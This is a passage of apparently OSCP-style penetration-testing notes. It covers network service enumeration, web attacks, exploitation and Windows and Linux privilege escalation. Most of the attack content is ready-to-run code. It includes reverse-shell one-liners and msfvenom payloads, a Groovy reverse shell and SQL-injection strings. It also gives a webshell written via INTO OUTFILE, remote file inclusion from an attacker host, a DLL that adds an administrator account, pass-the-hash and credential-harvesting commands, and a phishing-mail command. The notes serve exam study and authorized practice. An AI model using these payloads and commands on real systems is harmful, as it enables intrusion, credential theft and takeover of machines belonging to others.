nxc smb 192.168.1.100 -u username -p password --port 445 --shares #specific port
nxc smb 192.168.1.100 -u username -p password -d mydomain --shares #specific domain
#Two lists test combinations by default; use --no-bruteforce for matching username/password rows.

# Smbclient
smbclient -L //IP -U 'DOMAIN/username' # list shares; use -N only when testing anonymous access
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```

- Downloading shares made easy - if the folder consists of several files, they all be downloading by this.

```powershell
mask ""
recurse ON
prompt OFF
mget *
```

## HTTP/S enumeration

- Check with whatweb 'URL'
- View source-code and identify any hidden content. If some image looks suspicious download and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files which may contain juicy information
  

```powershell
dirbuster
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, this may reveal information like subdomains, usernames…etc
- Default credentials, Identify the CMS or service and check for default credentials and test them out.
- Bruteforce

```powershell
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post or get can be obtained from Burpsuite. Also do capture the response for detailed info.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or anyothers which has upload privileges are getting reflected on web.
- API - Fuzz further and it can reveal some sensitive information

```powershell
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

### Wordpress

Use the installed `wpscan --help`; vulnerability details depend on the API token and database coverage. [Current help](https://www.kali.org/tools/wpscan/).

```powershell
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, and Timthumbs
wpscan --url "<TARGET_URL>" --enumerate vp,u,vt,tt --verbose --format cli --output target.log

# Add a WPScan API token to get vulnerability details. Never commit a real token.
wpscan --url http://alvida-eatery.org/ --api-token <WPScan_API_TOKEN>

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

### Drupal

```bash
droopescan scan drupal -u http://site
```

### Joomla

```bash
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce 
```

## DNS enumeration

- Better use `Seclists` wordlists for better enumeration. [https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

```powershell
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```

## SMTP enumeration

```powershell
nc -nv <IP> 25 #Version Detection
smtp-user-enum -M VRFY -U username.txt -t <IP> # -M means mode, it can be RCPT, VRFY, EXPN

#Sending emain with valid credentials, the below is an example for Phishing mail attack
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

## LDAP Enumeration

```powershell
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info w're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for domain admins (--users enumerates users generally)
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users
```

## NFS Enumeration

```powershell
nmap -sV --script=nfs-showmount <IP>
showmount -e <IP>
```

## SNMP Enumeration

```powershell
#Nmap UDP scan
sudo nmap -sU -sV -p 161 --reason -oN snmp-scan.txt <IP>

snmp-check -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports
```

## RPC Enumeration

```powershell
rpcclient -U=user $IP
rpcclient -U "" -N "$IP" #Anonymous login
##Commands within in RPCclient
srvinfo
enumdomusers #users
enumpriv #enumerates server-supported privileges, not the current token privileges
queryuser <RID> #detailed user info; obtain RID from enumdomusers
getuserdompwinfo <RID> #password policy, get user-RID from previous command
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users
```

---

# Web Attacks

<aside>
💡 Cross-platform PHP revershell: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

</aside>

## Directory Traversal

```powershell
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd 

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```powershell
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

## Local File Inclusion

- Directory traversal reads files outside the intended directory. LFI makes the application include a local file; it does not inherently provide code execution. Code execution may become possible in specific cases, such as log poisoning or an unsafe PHP wrapper.

The log examples below assume executable PHP was already written into a readable log; adding `cmd=` alone does nothing. `data://` and remote URL inclusion depend on PHP configuration, including `allow_url_include`; `php://filter` can expose source without executing it. [PHP configuration](https://www.php.net/manual/en/filesystem.configuration.php).

```powershell
#At first we need 
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>" 
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php 
```

- Remote file inclusion

```powershell
1. Obtain a php shell
2. host a file server 
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

## SQL Injection

```powershell
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```powershell
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

The first example is MSSQL and needs permission to enable/use `xp_cmdshell`. The later `INTO OUTFILE` example is MySQL/MariaDB: it needs FILE privilege, an allowed `secure_file_priv` location, a new writable file and an executing web handler. Do not combine their SQL dialects. [SQL Server](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option), [MySQL](https://dev.mysql.com/doc/refman/8.4/en/select-into.html).

```powershell
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from web, then follow below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.125/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code execution

> **Training only: SQLMap is prohibited in the OSCP exam.** These historical examples are for authorized practice where the tool is allowed. Use the [manual web workflow](docs/web.md) to practice without it. See the [official restrictions](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide).

```powershell
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```

---

# Exploitation

## Finding Exploits

### Searchsploit

```bash
searchsploit <name>
searchsploit -m windows/remote/46697.py #Copies the exploit to the current location
```

## Reverse Shells

### Msfvenom

```powershell
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One Liners

```powershell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>
#PowerShell -EncodedCommand expects Base64-encoded UTF-16LE text; Base64 is encoding, not encryption.
```

<aside>
💡 While dealing with PHP reverseshell use: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

</aside>

### Groovy reverse-shell

- For Jenkins

```powershell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---

# Windows Privilege Escalation

Use the [exam evidence checklist](docs/exam.md#evidence-at-each-milestone) for proof requirements; a recursive text search is not proof of privileged access.

## Manual Enumeration commands

```bash
#Groups we're part of
whoami /groups

whoami /all #lists everything we own.

#Starting, Restarting and Stopping services in Powershell
Start-Service <service>
Stop-Service <service>
Restart-Service <service>

#Powershell History
Get-History
(Get-PSReadlineOption).HistorySavePath #displays the path of consoleHost_history.txt
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Viewing installed execuatbles
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Process Information
Get-Process
Get-Process | Select ProcessName,Path

#Sensitive info in XAMPP Directory
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue #this for a specific user

#Service Information
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

## Automated Scripts

```bash
winpeas.exe
winpeas.bat
Jaws-enum.ps1
powerup.ps1
PrivescCheck.ps1
```

## Token Impersonation

Check OS build, architecture, enabled privileges and the required service/trigger. A privilege name alone does not establish exploitability. [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) is archived; use each project's documented target support. [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG).
- Command to check `whoami /priv`

```powershell
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"

#RoguePotato
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999

#GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

#JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami"

#SharpEfsPotato
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
#writes whoami command to w.log file
```

## Services

### Binary Hijacking

```powershell
#Identify service from winpeas
icacls "path" #F means full permission, we need to check we have full access on folder
sc.exe qc <servicename> #find binarypath variable
sc.exe config <service> binPath= "<FULL_BINARY_PATH>" # requires SERVICE_CHANGE_CONFIG; space after = is required
sc.exe start <servicename>
```

### Unquoted Service Path

```powershell
Get-CimInstance Win32_Service | Select-Object Name,StartName,PathName
# PowerShell: inspect unquoted executable paths containing spaces, then verify write access and a trigger.
#Check the Writable path
icacls "path"
#Insert the payload in writable location and which works.
sc.exe start <servicename>
```

### Insecure Service Executables

```bash
#In Winpeas look for a service which has the following
File Permissions: Everyone [AllAccess]
#Replace the executable in the service folder and start the service
sc.exe start <service>
```

### Weak Registry permissions

```bash
#Look for the following in Winpeas services info output
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) #This means we have ful access

accesschk.exe -accepteula -uvwqk <path of registry> #Check for KEY_ALL_ACCESS

#Service Information from regedit, identify the variable which holds the executable
reg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#Imagepath is the variable here

net start <service>
```

## DLL Hijacking

1. Find Missing DLLs using Process Monitor, Identify a specific service which looks suspicious and add a filter.
2. Check whether you have write permissions in the directory associated with the service.
```bash
# Create a reverse-shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attaker-IP> LPORT=<listening-port> -f dll > filename.dll
```
3. Copy it to victom machine and them move it to the service associated directory.(Make sure the dll name is similar to missing name)
4. Start listener and restart service, you'll get a shell.

### DLL Hijacking adding New user into Administrators group
1. Create DLL with name file.cpp
2. Convert file to .cpp to .dll, executable DLL using "x86_64-w64-mingw32-gcc".
3. Place DLL on the target, with same name as missing (My case - BetaService)
4. restart or start the service
5. Check net user command, new user will be added.
   

```bash
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user ashok password123! /add");
  	    i = system ("net localgroup administrators ashok /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
```bash
x86_64-w64-mingw32-gcc file.cpp --shared -o file.dll
```


## Autorun

```powershell
#For checking, it will display some information with file-location
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

#Check the location is writable
accesschk.exe -accepteula -wvu "<path>" #returns FILE_ALL_ACCESS

#Replace the executable with the reverseshell and we need to wait till Admin logins, then we'll have shell
```

## AlwaysInstallElevated

```powershell
#For checking, it should return 1 or Ox1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#Creating a reverseshell in msi format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> --platform windows -f msi > reverse.msi

#Execute and get shell
msiexec /quiet /qn /i reverse.msi
```

## Scheduled Tasks

```bash
schtasks /query /fo LIST /v #Displays list of scheduled tasks, Pickup any interesting one
#Check write access to the executed component, task identity and trigger; writable alone is insufficient.
icacls "path"
#Wait till the scheduled task in executed, then we'll get a shell
```

## Startup Apps

```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp #Startup applications can be found here
#Check writable permissions and transfer
#Startup-folder programs normally run at user sign-in, with that user's context; restart alone does not imply elevation.
```

## Insecure GUI apps

```bash
#Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
#Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 
```

## SAM and SYSTEM

- Check in following folders

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\windows.old

#First go to c:
dir /s SAM
dir /s SYSTEM
```

- Obtaining Hashes from SYSTEM and SAM

```bash
impacket-secretsdump -system SYSTEM -sam SAM local 
#always mention local in the command
#Now a detailed list of hashes are displayed
```

## Passwords

### Sensitive files

```bash
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
Findstr /si password *.config 
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*
```

### Config files

```bash
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini
```

### Registry

```bash
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Putty keys
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" #Check the values saved in each session, user/password could be there

### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

### SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s
```

### RunAs - Savedcreds

```bash
cmdkey /list #Displays stored credentials, looks for any optential users
#Transfer the reverseshell
runas /savecred /user:admin C:\Temp\reverse.exe
```

### Pass the Hash

```bash
#If hashes are obtained though some means then use psexec, smbexec and obtain the shell as different user.
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe
```

---

# Linux Privilege Escalation

- [Privesc through TAR wildcard](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

## TTY Shell

```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

## Basic

```bash
find / -writable -type d 2>/dev/null
dpkg -l #Installed applications on debian system
cat /etc/fstab #Listing mounted drives
lsblk #Listing all available drives
lsmod #Listing loaded drivers

watch -n 1 "ps aux | grep pass" #Checking processes for credentials
sudo tcpdump -i lo -A | grep "pass" #Password sniffing using tcpdump

```
## Manual Enumeration

- id
- `cat /etc/passwd` - displays all the user
    - `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
    - `ls /home` - displays users
- `hostname` - lists the name of the host
- `cat /etc/issue` - exact version on the OS
cat /etc/os-release
- `uname -a` - prints kernel information
cd /home
groups <USER> 
id -G <USER>

- `ps` - lists the processes that are running
    - `ps -A` - all running processes
    - `ps axjf` - process tree
    - `ps aux` - displays processes with the users as well
ip a or ifconfig
routel or route
ss -anp or netstat -anp
cat /etc/iptables/rules.v4
ls -lah /etc/cron*
crontab -l
sudo crontab -l
dpkg -l or rpm
find / -writable -type d 2>/dev/null
cat /etc/fstab 
mount
lsblk
lsmod
/sbin/modinfo libata #libata found in the output of lsmod
find / -perm -u=s -type f 2>/dev/null
strings file_read(Read file)
which bash sh awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp git 2>/dev/null

- `cat /proc/version` - prints almost same infor of above command but more like gcc version....

- `env` - shows all the environment variable
- `sudo -l` - lists the current user's allowed commands, run-as identities and tags; NOPASSWD is a separate condition
- `groups` - lists the groups that current user is in
- `id` - lists id of group,user

- `history` - previously ran commands which might have some sensitive info
- `ifconfig` (or) `ip a` (or) `ip route` - network related information
  
- **netstat** - network route
    - `netstat -a` - all listening and established connection
    - `netstat -at` - tcp connections
    - `netstat -au` - udp connections
    - `netstat -l` - listening connections
    - `netstat -s` - network statistics
    - `netstat -tp` - connections with service name and pid we can also add "l" for only listening ports
    - `netstat -i` - interface related information
    - `netstat -ano`


- **find** command which helps us in finding lot of stuff,
    - Syntax: `find <path> <options> <regex/name>` find . -name flag1.txt: find the file named “flag1.txt” in the current directory
    - `find /home -name flag1.txt` : find the file names “flag1.txt” in the /home directory
    - `find / -type d -name config` : find the directory named config under “/”
    - `find / -type f -perm 0777` : find files with the 777 permissions (files readable, writable, and executable by all users)
    - `find / -type f -executable 2>/dev/null` : find files executable by the current user
    - `find /home -user frank` : find all files for user “frank” under “/home”
    - `find / -mtime -10` : find files that were modified in the last 10 days
    - `find / -atime -10` : find files that were accessed in the last 10 days
    - `find / -cmin -60` : find files changed within the last hour (60 minutes)
    - `find / -amin -60` : find files accesses within the last hour (60 minutes)
    - `find / -size 50M` : find files with a 50 MB size
    - `find / -writable -type d 2>/dev/null` : find directories writable by the current user
    - `find / -perm -0002 -type d 2>/dev/null` : find world-writable directories
    - `find / -perm -0001 -type d 2>/dev/null` : find world-executable directories
    - We can also find programming languages and supported languages: `find / -name perl*`, `find / -name python*`, `find / -name gcc*` ...etc
    - `find / -perm -u=s -type f 2>/dev/null` : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. This is important!


## Automated Scripts

- LinPeas: [https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- LES (Linux Exploit Suggester): [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- Linux Smart Enumeration: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- Linux Priv Checker: [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Sensitive Information

```bash
cat .bashrc
env #checking environment variables
watch -n 1 "ps aux | grep pass" #Harvesting active processes for credentials
#Process related information can also be obtained from PSPY
```

## Sudo/SUID/Capabilities

### Sudo:

[](https://github.com/saisathvik1/Linux-Privilege-Escalation-Notes#sudo)

- This one of the first step to do, when you get access to the machine just simpley run "sudo -l", which lists all the files that we can run as root without any password
- Once you have any to run then navigate to [https://gtfobins.github.io/](https://gtfobins.github.io/) and search for is the one specified is a system program or else modify the file with "/bin/sh" and run that
- GTFO bins is going to be saviour!

---

### SUID:(Set owner User ID)

[](https://github.com/saisathvik1/Linux-Privilege-Escalation-Notes#suidset-owner-user-id)

- Its a kind of permission which gives specific permissions to run a file as root/owner
- This is really helpful to test.
- `find / -perm -u=s -type f 2>/dev/null` this will list all the suid files
- Then later search in GTFObins and look for the way to bypass
- Resource: [https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)

---

### Capabilities:

[](https://github.com/saisathvik1/Linux-Privilege-Escalation-Notes#capabilities)

- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!


## Cron Jobs

- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- But if we find any cron-job which we can edit then we can do a lot!
- Cron job config is stored as **crontabs**
